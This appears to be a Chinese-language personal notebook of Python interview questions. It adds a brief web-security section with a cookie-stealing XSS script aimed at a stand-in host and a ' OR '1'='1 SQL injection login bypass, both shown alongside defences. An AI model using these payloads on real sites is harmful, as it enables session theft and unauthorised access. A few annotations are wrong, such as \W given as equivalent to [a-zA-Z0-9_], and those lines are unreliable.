

1.**Python中哪些是可变对象，不可变对象？**

可变对象：列表，集合，字典

不可变对象： 元组，整数，字符串，浮点数，布尔值


2.**字典不是线程安全的。**

在多线程环境下，多个线程同时对同一个字典进行读写操作可能会导致数据竞争和数据不一致的问题。

> 扩展：
> 
> 同样不是线程安全的对象有： 列表(list), 字典(dict),  集合(set)
> 
> 线程安全的是： 元祖(tuple)， 字符串(str)， 字节或字符串(bytes)。因为它们都是不可变对象


3.**现在有一个数字和布尔类型，你怎么去区分它们？**

1.使用type()函数

2.直接检查布尔值，比如 y is True


> nizhenshi: 
> 
> 使用isinstance()函数
> 
> x = 5
> 
> y = True
> 
> isinstance(x, (ini,float)
> 
> isinstance(y, bool)


4.**Flask框架的Request对象底层怎么实现的？**

对于 flask app 来说，请求就是一个对象，当需要某些信息的时候，只需要读取该对象的属性或者方法就行了。
Request() # 未实现,借用自 Werkzeug

这个类的定义很简单，它继承了 `werkzeug.wrappers:Request`，然后添加了一些属性，这些属性和 flask 的逻辑有关，比如 view_args、blueprint、json 处理等


总之，Flask的Request对象是通过Werkzeug库实现的，它封装了当前HTTP请求的所有数据，并且提供了许多属性和方法来访问这些数据。


5.**flask怎么区分不同的请求到对应的视图函数？**

flask 的做法是把这些信息作为**类似全局变量的东西**，这些对象和全局变量不同的是——它们必须是动态的，因为在多线程或者多协程的情况下，每个线程或者协程获取的都是自己独特的对象，不会互相干扰。

如何实现这种互不干扰的效果呢？多线程中有个非常类似的概念 [`threading.local`](http://stackoverflow.com/questions/104983/what-is-thread-local-storage-in-python-and-why-do-i-need-it#)。内部的原理就是，这个对象有一个字典，保存了线程 id 对应的数据，读取该对象的时候，它动态地查询当前线程 id 对应的数据。这样就会使多线程或者多协程情况下全局变量的隔离效果。


在并发程序中每个视图函数都会看到属于自己的上下文，而不会出现混乱。


6.**正则表达式[a-zA-Z0-9_]等价于哪个？**
等价于\w  (小写)

>nizhenshi
>\W

7.**python的正则 ^a|bc$ 可以匹配acd吗**
解释：正则里的 | 优先级很低，低到让人类经常误判。真实解析方式是： (^a) | (bc$ ) 意思是满足以a开头或以bc结尾
✔ 能匹配：acd， a， abc， zzzbc
✖ 不能匹配：bca， zzab

>nizhenshi
>可以


8.类与实例的关系，python的继承和多态，应用场景，分别举个例子
8.1类是抽象的模板，定义了对象的属性和行为。
实例是类的具体化，是在内存中真实存在的对象。每个实例有独立的状态


8.2继承是 用已有类来派生新类，实现：代码复用，行为扩展，语义层级建模
应用场景： 基础服务类 + 业务实现， 抽象基类（ABC）

8.3多态是 同一个接口，不同对象表现出不同的行为
```
def make_animal_speak(animal: Animal):
    print(animal.speak())

make_animal_speak(Dog())
make_animal_speak(Cat())
```
上面看出：调用方式一致，实际行为不同，运行时决定

应用场景： 1.策略模式 2.解耦业务逻辑(避免if-elif)

在业务代码中，我更偏向组合和多态，而不是深层继承。


9.

 gunicorn 怎么念？

为了省事：

- 绿色的独角兽

- g-unicorn

- gun-i-corn


# 攻击手段：

## 一、跨站脚本攻击

### 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

### 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

### 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

### 防范手段

#### 1. 设置 Cookie 为 HttpOnly

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

#### 2. 过滤特殊字符

例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。


## 二、跨站请求伪造

### 概念

跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。


### 攻击原理

假如一家银行用以执行转账操作的 URL 地址如下：

```
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
```

那么，一个恶意攻击者可以在另一个网站上放置如下代码：

```
。
```

如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 美元。

这种恶意的网址可以有很多种形式，藏身于网页中的许多地方。此外，攻击者也不需要控制放置恶意网址的网站。例如他可以将这种地址藏在论坛，博客等任何用户生成内容的网站中。这意味着如果服务器端没有合适的防御措施的话，用户即使访问熟悉的可信网站也有受攻击的危险。

通过例子能够看出，攻击者并不能通过 CSRF 攻击来直接获取用户的账户控制权，也不能直接窃取用户的任何信息。他们能做到的，是欺骗用户浏览器，让其以用户的名义执行操作。

### 防范手段

#### 1. 检查 Referer 首部字段

Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。检查这个首部字段并要求请求来源的地址在同一个域名下，可以极大的防止 CSRF 攻击。

这种办法简单易行，工作量低，仅需要在关键访问处增加一步校验。但这种办法也有其局限性，因其完全依赖浏览器发送正确的 Referer 字段。虽然 HTTP 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。

#### 2. 添加校验 Token

在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。

#### 3. 输入验证码

因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户输入验证码可以让用户知道自己正在做的操作。


XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。


## 三、SQL 注入攻击

### 概念

服务器上的数据库运行非法的 SQL 语句，主要通过拼接来完成。

### 攻击原理

例如一个网站登录验证的 SQL 查询代码为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果填入以下内容：

```sql
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
```

那么 SQL 查询字符串为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

此时无需验证通过就能执行以下查询：

```sql
strSQL = "SELECT * FROM users;"
```

### 防范手段

#### 1. 使用参数化查询

Java 中的 PreparedStatement 是预先编译的 SQL 语句，可以传入适当参数并且多次执行。由于没有拼接的过程，因此可以防止 SQL 注入的发生。

```java
PreparedStatement stmt = connection.prepareStatement("SELECT * FROM users WHERE userid=? AND password=?");
stmt.setString(1, userid);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();
```

#### 2. 单引号转换

将传入的参数中的单引号转换为连续两个单引号，PHP 中的 Magic quote 可以完成这个功能。


## 四、拒绝服务攻击

拒绝服务攻击（denial-of-service attack，DoS），亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。

分布式拒绝服务攻击（distributed denial-of-service attack，DDoS），指攻击者使用两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。

---

覆盖基础语法、数据结构、内存管理、并发、OOP、装饰器等核心领域

告诉我软件工程师面试中关于Python最常见的10个问题
告诉我关于"Python 的 GIL（全局解释器锁）是什么,有什么影响"的五个最常见的软件工程师面试问题？
告诉我Python官方文档中“Python 的 GIL（全局解释器锁）是什么,有什么影响”的五个网址
Python 的 GIL（全局解释器锁）是什么?有什么影响?

1. Python 的 GIL（全局解释器锁）是什么？有什么影响？
2. 深拷贝和浅拷贝的区别？（list、dict 常考）
3. 可变对象 vs 不可变对象？为什么重要？             数据结构
4. Python 的内存管理机制？引用计数 + GC？          内存管理
5. Python 中的装饰器是什么？如何实现？             装饰器
6. 什么是迭代器（Iterator）和生成器（Generator）？
7. 什么是列表推导式？为什么更快？
8. @staticmethod、@classmethod、实例方法的区别？
9. Python 中的异常机制？如何自定义异常？
10. Python 中多线程、多进程、协程的区别？           并发


1. 什么是 Python 的 GIL？为什么需要它？
2. GIL 对多线程有什么影响？CPU 密集 vs I/O 密集怎么表现？
3. 如何在 Python 中绕过 GIL？如何利用多核 CPU？
4. GIL 为什么不能简单移除？移除 GIL 会带来什么问题？
5. 说一个你实际遇到 GIL 带来性能问题的场景，并说明如何解决？

GIL是CPython解释器内部使用的一把全局互斥锁，用来保证同一时刻只有一个线程能够执行 Python 字节码。
之所以需要这个互斥锁，主要是因为 CPython 的内存管理并非线程安全。
> （CPython 使用 引用计数 来管理内存，每个对象都维护自己的引用数量。
引用计数自增/自减都需要修改共享内存，如果多线程同时执行这些操作，可能导致对象被错误释放或内存泄漏。
为了避免对每个对象都加锁（代价极高），CPython 引入了 一个大锁 GIL 来保证解释器级别的线程安全。）

<details>
<summary>导致对象被错误释放或内存泄漏</summary>
内存泄漏： 假设两个线程尝试增加计数。线程 A 读取到 1，准备写回 2。线程 B 已经快一步完成了加法，把计数改成了 2，紧接着线程 B 很快就释放了对象，把计数改回了 1。此时线程 A “苏醒”了，它把自己之前算好的结果 2 写了回去。 此时实际上只有线程 A 在引用对象，但计数器是 2。等线程 A 也释放了，计数器变成 1。结果，这个对象在内存里永远保持计数 1，没有任何变量指向它，但垃圾回收器永远不会动它。这就是内存泄漏。


程序崩溃（早退了）： 线程A刚把计数减为1（还没来得及释放），线程B此时插一脚把计数减到了0并触发了回收。后果： 线程A还在准备用这个对象呢，结果内存已经被收走甚至挪作他用了，一访问直接报 Segmentation Fault 崩溃。

</details>


GIL让多线程不能充分利用多核CPU的优势，例如计算密集型任务： 图像处理 、视频编码 、大量循环计算 、加密哈希运算 这些任务在 Python 多线程下 仍然是单核计算。
I/O 密集型任务仍然能受益于多线程，因为 I/O（网络请求、文件读写、等待数据库）会释放 GIL。
可以使用多进程 multiprocessing 模块来绕过GIL。更好地利用多核心计算机的计算资源，推荐使用 multiprocessing 或者 concurrent.futures.
简单移除GIL会破坏了现有的 C 扩展，这些扩展严重依赖于 GIL 提供的解决方案。移除 GIL 会导致 Python 3 的单线程性能比 Python 2 更慢。  (自己：因为你得给每个对象加锁，释放锁，会产生开销)


1. 在 Python 中，浅拷贝（shallow copy）和深拷贝（deep copy）有什么区别？请举例说明
2. 使用 list.copy()、切片 [:]、dict.copy() 创建的拷贝属于浅拷贝还是深拷贝？为什么？
3. 请解释 copy.copy() 和 copy.deepcopy() 的区别，什么时候必须使用 deepcopy？
4. 给定如下代码，输出是什么？为什么？
```
import copy

a = [[1, 2], [3, 4]]
b = copy.copy(a)
b[0][0] = 99
print(a)
print(b)
```
5.为什么不可变对象（如 int、str、tuple）在深拷贝和浅拷贝中表现一致？

浅拷贝与深拷贝的区别仅与复合对象相关
浅拷贝：构造一个新的复合对象，然后将原始对象中子对象的的**引用**插入其中
深拷贝：构造一个新的复合对象，然后递归地将原始对象中子对象的**副本**插入其中

> 复合对象：即包含列表或类的实例等其他对象的对象

list.copy()、切片 [:]、dict.copy() 创建的拷贝属于浅拷贝
copy.copy() 是浅拷贝， copy.deepcopy()是深拷贝。

深拷贝操作通常存在两个问题, 而浅层复制操作并不存在这些问题：
- 递归对象  可能会导致递归循环。   (因为递归对象 直接或间接包含对自身引用的复合对象)
- 由于深层复制会复制所有内容，因此可能会过多复制。  （例如本应该在副本之间共享的数据）

deepcopy() 函数用以下方式避免了这些问题：
- 保留在当前复制过程中已复制的对象的 "备忘录" （memo）字典
- 以及允许用户定义的类重写复制操作或复制的组件集合。

> 所谓“复制的组件集合”，通俗点说就是：你可以列一个“白名单”或“黑名单”，告诉 deepcopy 哪些东西需要复制，哪些东西不需要。
  当你使用 copy.deepcopy() 处理一个自定义类时，它默认会去复制该对象 __dict__ 属性里的所有内容。通过重写 __getstate__ 和 __setstate__ 这两个魔法方法，你就可以控制这个“组件集合”。

深拷贝时必须使用deepcopy()
a = b = [[99,2], [3,4]]
因为不可变对象不是复合对象，它的元素不是其他对象的引用。

> 浅拷贝复制一层；深拷贝复制到底。
可变对象嵌套时，浅拷贝共享引用，深拷贝独立互不影响。


1. Python 中哪些是可变对象？哪些是不可变对象？为什么要区分？
2. 为什么可变对象不能作为 dict 的 key，而不可变对象可以？
3. 解释可变默认参数陷阱：为什么不要使用 list 或 dict 作为函数的默认参数？怎么解决？
4. 可变对象与不可变对象在赋值、传参中有什么不同？
5. 以下代码输出什么？为什么？（高频陷阱）
```
a = (1, 2, [3, 4])
b = a
b[2].append(5)
print(a)
```

(1)不可变对象：字符串，字节串，元组，数值类型(int/float/bool)；可变：列表，字典，集合，字节数组
(2)字典是以键来索引的，键可以是任何不可变对象。
> python的dict建立在哈希表之上，即键必须是可哈希的。
  而不可变对象中比如数值类型以及字符串和字节串均是可哈希的， 而容器类型比如列表都是不可哈希的（如果元组所含的对象全是可哈希的，那么元组是可哈希的）。
  可哈希：如果一个对象的哈希码在整个生命周期内永不改变，而且可与其他的对象比较(依托__eq__()方法)，那么这个对象就是可哈希的。

(3)Python函数参数是 “按引用传递”，但可变性决定了是否能修改原对象：
不可变参数：函数内修改会创建新对象，不影响外部；
可变参数：函数内修改会直接改变外部对象（需谨慎）
(4)Python 中变量是 “对象的引用”，而非直接存储数据：
不可变对象：赋值时创建新引用，修改不会影响其他变量；
可变对象：赋值时共享引用，修改会同步影响所有指向该对象的变量。
(5)(1,2,[3,4,5])

## Python 的内存管理由哪些机制组成？引用计数是如何工作的？
## 什么是引用计数？引用计数在什么情况下不会回收对象？（循环引用问题）
## Python 的 GC（垃圾回收器）如何处理循环引用？分几代？触发条件是什么？
## Python 中的对象什么时候会被立即释放？什么时候不会？请举例说明。
## Python 的内存池（pymalloc）是什么？为什么 Python 不直接使用系统 malloc？

私有堆： 原始内存分配器 + 几个对象特定的分配器，Python的堆内存管理由解释器来执行，用户对它没有控制权 

Python 的内存管理由引用计数、循环垃圾回收和内存池组成。
CPython 中每个对象都有一个引用计数，当计数归零时立即释放内存。引用计数简单高效，但无法处理循环引用， 所以Python内置了GC来检测和回收 成环但不可达的对象。
此外，Python 使用 pymalloc 内存池管理小对象，减少系统调用带来的开销，并减轻内存碎片化问题。

> python定期扫描对象图，寻找**不可达但存在循环引用**的对象，回收它们的内存 （GC 不负责所有对象，仅处理容器对象）
  GC 使用 分代回收（Generational GC） 分为 3 代：
 | 代     | 特点                   |
| ----- | -------------------- |
| 第 0 代 | 存活最短，新创建对象           |
| 第 1 代 | 经历一次 GC 未被回收         |
| 第 2 代 | 经历多次 GC 未被回收（长期存活对象） |


>  CPython 有自己的内存管理系统 pymalloc，用于提升性能和减少碎片。
    Python 内部把内存分成三层：
     arena（大块内存）
      └── pool（几个 KB）
            └── block（几十字节的对象）
   Python 会重复使用 block，而不是把内存还给操作系统。
   为什么 Python 不直接使用系统 malloc？
      系统调用malloc太慢; 频繁分配/释放小对象会造成碎片化; Python 有大量“小对象”：数字、字符串、元组等


## 什么是装饰器？为什么要使用装饰器？
## 如何实现一个最简单的装饰器？（面试必问）
## 为什么要使用 functools.wraps？不用会有什么问题？
## 装饰器如何接受参数？（带参数的装饰器）
## 如何给类添加装饰器？类方法 / 静态方法装饰器有什么区别？

装饰器是一种高阶函数，它接收一个函数并返回一个新的函数，用于在不改变原函数代码的情况下扩展其功能。装饰器常用于日志、鉴权、性能统计等。
使用 @decorator 是语法糖，等同于 func = decorator(func)。实现装饰器时要使用 functools.wraps 保留原函数的元数据。

简单的装饰器：
```
def deco(func):
   func.attr = 'decorated'
   return func

@deco
def f(): pass
```
functools.wraps的作用是 使包装器函数与其 被包装函数相似。如果不用，则被装饰函数的函数名和文档字符串将会丢失。

接受参数的装饰器一般是定义三层：最外层接受装饰器参数，返回真正的装饰器;中间层接受函数，是装饰器本体;最内层封装被装饰的函数
```
def repeat(times):  # 1. 接受参数
    def decorator(func):  # 2. 真正的装饰器
        def wrapper(*args, **kwargs):  # 3. 包装函数
            result = None
            for _ in range(times):
                result = func(*args, **kwargs)
            return result
        return wrapper
    return decorator
    
@repeat(times=3)
def greet():
    print("Hello!")

greet()
```

给类本身加装饰器: 类装饰器的输入是“类对象”，输出也是“类对象”。
```
def add_repr(cls):
    cls.__repr__ = lambda self: f"<{cls.__name__} {self.__dict__}>"
    return cls

@add_repr
class User:
    def __init__(self, name):
        self.name = name

u = User("Tom")
print(u)

# <User {'name': 'Tom'}>
```


## 什么是迭代器（Iterator）？Python 如何让一个对象可迭代？
## 生成器（Generator）是什么？与迭代器有什么关系？
## 请解释 yield 的工作机制？与 return 有什么区别？
## 迭代器 vs 生成器 vs 列表 的内存使用差异？
## 如何自定义迭代器与生成器？什么场景应该选择哪一个？


迭代器：迭代器是一个表示数据流的对象。这个对象每次只返回一个元素，迭代器必须支持__next__()函数，它总是返回数据流中的下一个元素，如果数据流中没有元素，__next__() 会抛出**StopIteration**异常
迭代器协议：__iter__(),__next__()组成了迭代器协议。其中__iter__()返回迭代器本身，__next__()返回下一项，如果已经没有可返回的项，则会引发 StopIteration 异常。
迭代器行为：能被for遍历
迭代器对象：实现了__iter__(),__next__()
可迭代: 如果一个对象能生成迭代器，那么它就会被称作 iterable。
iter(): 接受任意对象并试图返回一个迭代器来输出对象的内容或元素, 并会在对象不支持迭代的时候抛出 TypeError 异常。

生成器：包含了 yield 关键字的函数。
与迭代器的关系：生产器用于创建迭代器
可以用生成器完成的功能同样可以用迭代器完成， 生成器的写法更加紧凑，因为它会自动创建__iter__(),__next__()方法。
另一个关键特性在于局部变量和执行状态会在每次调用之间自动保存， 这使得该函数相比使用 self.index 和 self.data 这种实例变量的方式更易编写且更为清晰。
当生成器终结时，它们还会自动引发 StopIteration
这些特性使得创建迭代器能与编写常规函数一样容易。


生产器协议：
生产器对象：
yield工作机制：当执行yield i表达式时，会返回i的值，就像return表达式一样
与return区别：到达yield表达式时会挂起执行状态并保留局部变量，在下一次调用生成器__next__()时，函数会恢复执行


内存使用差异：
列表一次性占用大量内存；迭代器和生成器是惰性加载，几乎不占额外内存。
生成器是创建迭代器最简单的方式。
如果数据量大或是要流式处理，用迭代器/生成器；如果需要随机访问或多次使用数据，用列表。


自定义迭代器：
```
class Reverse:
    """对一个序列执行反向循环的迭代器。"""
    def __init__(self, data):
        self.data = data
        self.index = len(data)

    def __iter__(self):
        return self

    def __next__(self):
        if self.index == 0:
            raise StopIteration
        self.index = self.index - 1
        return self.data[self.index]
```

自定义生成器：
```
def reverse(data):
    for index in range(len(data)-1, -1, -1):
        yield data[index]
```

## 什么是列表推导式？它与传统 for-loop 创建列表有什么区别？
## 为什么列表推导式通常比 for 循环更快？底层原理是什么？
## 列表推导式和生成器表达式有什么区别？（常考）
## 列表推导式是否应该包含多层循环或 if 条件？为什么？
## 列表推导式内部变量的作用域是什么？是否会泄露到外部作用域？（常考陷阱）

列表推导式创建列表的方式更简洁，外面是一个方括号，里面是一个表达式，后面为一个for子句，然后是零个或多个 for 或 if 子句。
与for-loop创建列表的区别：写法更简洁，更具表达性，执行效率更高。
比for循环更快：1.列表推倒式在C层执行 2.减少了.append的函数调用开销 3.局部变量访问更快
与生产器表达式区别：列表推导式是立即创建整个列表的，因此速度快但占用更多内存； 生成器表达式按需生成元素，占内存极少，但需要迭代才能得到值。

可写，但不推荐太复杂（降低可读性），多层循环时最好改成普通 for 或函数。
Python 3 中,列表推导式/生成器表达式中的变量不会泄露到外部作用域，但 Python 2 会泄露


## 实例方法、类方法、静态方法有什么区别？分别在什么场景使用？
## 为什么 @classmethod 能用来创建 alternative constructors？
## @staticmethod 到底有什么用？为什么不用普通函数？
## 类方法和静态方法在继承（Inheritance）中有什么行为差异？
## 类方法是不是可以当作实例方法使用？为什么实例方法不能作为类方法？

区别：
（参数，绑定到谁，装饰器，场景）
实例方法第一个参数是self, 绑定到实例对象，函数内部访问实例属性。
类方法第一个参数是cls, 绑定到类对象，需要@classmethod装饰器，常用于创建工厂函数。
静态方法的第一个参数不用传特定参数，完全不绑定，需要@staticmethod装饰器，它是类相关的工具函数，无需访问类或实例。

创建 替代构造函数： 因为@classmethod接受到的是类对象本身(cls)，因此可以返回该类新实例
并且支持继承，子类调用时，cls 是子类，而不是父类
```
@classmethod
def from_json(cls, data):
    return cls(**json.loads(data))
```
静态方法是“放在类里的工具函数”，作用是结构化代码，而不是绑定行为。

继承中行为差异：
            最核心区别：类方法会动态绑定，静态方法不会。
```
class A:
    @classmethod
    def who(cls):
        return cls.__name__

class B(A):
    pass

B.who() 
# 返回 "B" —— 说明类方法支持继承派发
```

类方法没有依赖实例状态，因此实例调它是合法且安全的。(类方法绑定到类，不依赖实例实例, 调用它不会注入 self；Python 仍然只会传入 cls，所以可以正常调用。)
实例方法依赖实例状态，因此如果从类调用，它没有 self 会报错。
```
class A:
    @classmethod
    def cm(cls):
        pass

    def im(self):
        pass

a = A()
a.cm()     # ✔ 可以，cls 被绑定为 A
A.im()     # ❌ 不行，缺少 self
```


## Python 的异常处理模型是什么？try / except / else / finally 的执行顺序如何？
## Python 的异常是如何传播的？什么是 traceback？
## 如何自定义异常？为什么应该继承自 Exception 而不是 BaseException？
## raise 的不同使用方式是什么？raise, raise e, raise from 有什么区别？
## 内置异常体系结构是什么？应该如何设计自定义异常层级？

异常模型： 使用 结构化异常处理
当代码运行发生异常时，会构造一个 Exception 对象；
Python 解释器会在当前作用域寻找匹配的 except 块； 
如果找不到，会继续向上层调用栈传播；
最终若到达顶层仍未处理，则程序终止并输出 traceback

执行顺序：
```
try:
    # 可能抛异常
except:
    # 处理异常
else:
    # try 中无异常时执行
finally:
    # 无论是否有异常都执行
```

1. 执行 try 块
2. 如果发生异常 → 跳过剩余的 try
3. 匹配对应的 except 执行
4. 如果 try 内没有异常 → 执行 else
5. 无论有没有异常 → 最后执行 finally

异常如何传播：
 异常会沿着 调用栈向上冒泡：
- 当前函数未处理 → 交给调用它的函数
- 调用者也未处理 → 再上层
- 一直到进入主程序
如果仍无人处理 → 程序退出并打印 traceback。


traceback:  是Python在异常终止时输出的, 是异常传播链的可视化输出, 它会指出出现异常的准确代码位置
```
Traceback (most recent call last):
  File "a.py", line 10, in <module>
    foo()
  File "a.py", line 6, in foo
    1 / 0
ZeroDivisionError: division by zero
```

如何自定义异常：

自定义异常一般继承自 Exception：
```
class InvalidUserInput(Exception):
    pass
```

为什么不继承自BaseException：
BaseException 只为“系统级异常”准备，这些异常 不应被普通 except 捕获，否则无法终止程序、无法退出解释器。
应用层异常应继承 Exception， 系统级异常才继承 BaseException。

raise：重新抛出当前异常（保持原 traceback）
```
try:
    ...
except:
    raise   # 原样抛出
```

raise e: 抛出一个新的异常对象（traceback 可能从这里重新开始）
```
except Exception as e:
    raise e   # 不推荐
```

raise from: 用于**异常链**, 表明 A 异常是由 B 异常导致的。
输出会同时包含两个异常： The above exception was the direct cause of the following exception:
**推荐用法**：在封装库时，不暴露底层异常而保留上下文。
```
try:
    int("abc")
except ValueError as e:
    raise TypeError("Type conversion failed") from e
```

内置异常体系结构：
```
BaseException
 ├── SystemExit
 ├── KeyboardInterrupt
 ├── GeneratorExit
 └── Exception
       ├── ArithmeticError
       │     ├── ZeroDivisionError
       │     └── OverflowError
       ├── LookupError
       │     ├── IndexError
       │     └── KeyError
       ├── TypeError
       ├── ValueError
       ├── RuntimeError
       ├── OSError
       └── ...
```
可捕获异常都来自 Exception
BaseException 体系中有一些异常不应屏蔽

设计自定义异常: 
1. 定义一个包级别的基类
```
class AppError(Exception):
    """Base class for all application-level errors."""
    pass
```
2. 为不同模块/行为定义子类
```
class DatabaseError(AppError):
    pass

class ConfigError(AppError):
    pass

class ValidationError(AppError):
    pass

```
3. 尽量用语义明确的名称
```
except AppError:
    # 捕获所有业务异常
```


## Python 的多线程、多进程、协程的本质区别是什么？分别适合什么场景？
## Python 多线程为什么无法真正并行？GIL（全局解释器锁）在其中扮演什么角色？
## multiprocessing 与 threading 的通信方式有什么区别？（Queue/Pipe/Event/Lock 等）
## 协程（async/await）为什么比线程更“轻量”？协程切换的开销来自哪里？
## 如何在一个项目中“正确选择”线程、进程、协程？有没有实际的判断标准？


多线程是 在同一个进程内多个线程共享内存，执行单位是线程，受GIL影响，无法真正的并行。适合I/O 密集型任务
多进程是 多个独立的进程，各自有独立内存空间，执行单位是进程，可以真正的并行（CPU核心级并行）。适合CPU密集型任务
协程是 单线程内用户级的"微线程"， 事件循环调度（协作式），是单线程并发，不并行。适合大量 I/O 并发、高并发场景

通信区别： 
    根本区别：是否共享内存
    多线程是共享内存，线程间可以共享变量 + Lock 控制，
    多进程是独立内存，进程通信需要序列化

协程轻量：
- 协程完全运行在用户态，不需要 OS 参与调度
- 协程切换只发生在 await I/O 操作时（协作式）
- 创建和销毁成本极低。一个线程需要 ~1MB 栈空间，一个协程只需要几KB


协程切换开销来自：
- Python 层面的 task 状态机切换
- 事件循环（event loop）调度
- 内部 future/promise 状态更新
- await 转换
总体成本远小于线程切换（OS 上下文切换）。


## 请介绍 Python 中变量的作⽤域？
Python ⾥的变量作⽤域决定了在哪个位置能访问到某个变量。这个规则其实就靠⼀套叫 LEGB 的查找顺序来控制。
1）L（Local）指的是当前函数内部。你在⼀个函数⾥⽤ x = 10 定义的变量，就只在这个函数⾥⽣效。
2）E（Enclosing）是外层函数的作⽤域。⽐如嵌套函数，内层函数可以读取外层函数定义的变量。
3）G（Global）是全局作⽤域，也就是模块⽂件顶层定义的变量，任何函数都能读它。
4）B（Built-in）是内置作⽤域，像 print 、 len 这些不⽤导⼊就能⽤的名称。
查找时从近到远：先看局部有没有，再往外层函数找，接着是全局，最后查内置。但赋值⾏为会改变这⼀逻辑⸺只
要函数内部对变量⽤了 = 赋值，默认就被当成局部变量，除⾮你⽤ global 或 nonlocal 明确声明。
举个例⼦：
```
x = "global"
def outer():
    x = "enclosing"
    def inner():
        nonlocal x
        x = "modified"
    inner()
```
这⾥ nonlocal 告诉解释器别创建新的局部变量，⽽是去外层找 x 。要是没这句， x = "modified" 就会在
inner ⾥新建⼀个局部变量，外层压根不改。


## 请解释 Python 代码的执⾏过程？
Python 代码执⾏不是直接跑在 CPU 上的，它⾛的是“编译成字节码 + 虚拟机解释执⾏”这套流程。你写完 .py ⽂件后，Python 解释器会先把它编译成 .pyc 字节码，存在 __pycache__ ⾥。

这些字节码是 CPython 虚拟机认识的指令，接下来由 CPython 虚拟机⼀条条解释执⾏。整个过程是单线程的，靠GIL（全局解释器锁） 保证同⼀时刻只有⼀个线程执⾏字节码，所以多线程在 CPU 密集任务⾥压根不经过并⾏提速。模块第⼀次导⼊时才会触发编译，之后加载 .pyc 就快了。⽐如你⽤ Django 或 Flask，启动时会看到__pycache__ ⽬录⽣成⼀堆⽂件，就是这个阶段留下的。
代码⽰例，看看字节码⻓啥样：
```
import dis
def add(a, b):
    return a + b
dis.dis(add)
```
输出会展⽰ LOAD_FAST、BINARY_ADD 这些虚拟机指令，跟汇编有点像。

如果你⽤的是 PyPy，那⾛的就是 JIT 编译路线，热点函数会被编译成本地机器码，执⾏效率更⾼。⽽ CPython 主打
⼀个稳定和兼容性，脏活累活都扛住了，但性能上限摆在这。



## 如何在 Python 中实现字符串替换操作？
⼀般情况下 replace() ⾜够，简单直接。要批量换字符优先考虑 translate ，规则复杂再上 re.sub 。这三招
覆盖了绝⼤多数场景。
1. replace() ⽅法，直接⽣成新字符串，原字符串不变。 传两个参数，⽼⼦串换新⼦串，还能加第三个参数控制替换次数。
```
text = "a-b-c-d"
new_text = text.replace("-", "_", 2)
```
2.str.translate() + str.maketrans() 组合，适合批量替换多个字符，性能更好。
⽐如把所有标点换成下划线：
```
text = "hello, world! how are you?"
translator = str.maketrans(",!?", "___")
text.translate(translator)
# 结果是 "hello_ world_ how are you_"
```
3.re.sub() 更灵活，能处理模式匹配。⽐如统⼀替换各种空⽩符：
```
import re
text = "hello \t world\n"
re.sub(r"\s+", " ", text).strip()
# 多个空格、制表符、换⾏全压成⼀个空格
```


## 你使⽤过哪些 Python 标准库模块？
⽂件、数据、⽹络、时间、⽇志等常⻅需求
1.处理⽂件和路径， os 和 pathlib 基本就够⽤了。 pathlib 更现代，写起来也清爽，⽐如
Path('/tmp').joinpath('a.txt') ⽐字符串拼接靠谱多了。
2.⽹络请求⼀般⽤第三⽅库 requests ，但偶尔轻量场景也会⽤ urllib.request ，毕竟不⽤装包。 json 模块更
是天天⻅，序列化反序列化基本都靠它。
3.时间处理绕不开 datetime ，解析时间字符串或者计算时间差都很顺⼿。需要定时任务时会⽤到 time.sleep()
配合循环，复杂点的调度就得上 schedule 这类第三⽅库了。
4.调试和⽇志⾸选 logging ，⽐ print 强太多了，能分级能输出⽂件
5.re处理正则表达式，⽂本清洗时少不了
6.random ⽣成随机数

## Python 中 any() 和 all() ⽅法有什么作⽤？
any(iterable) 只要 iterable ⾥有⼀个元素为真，就返回 True。
all(iterable) 要求 iterable ⾥所有元素都为真，才返回 True。

注意：
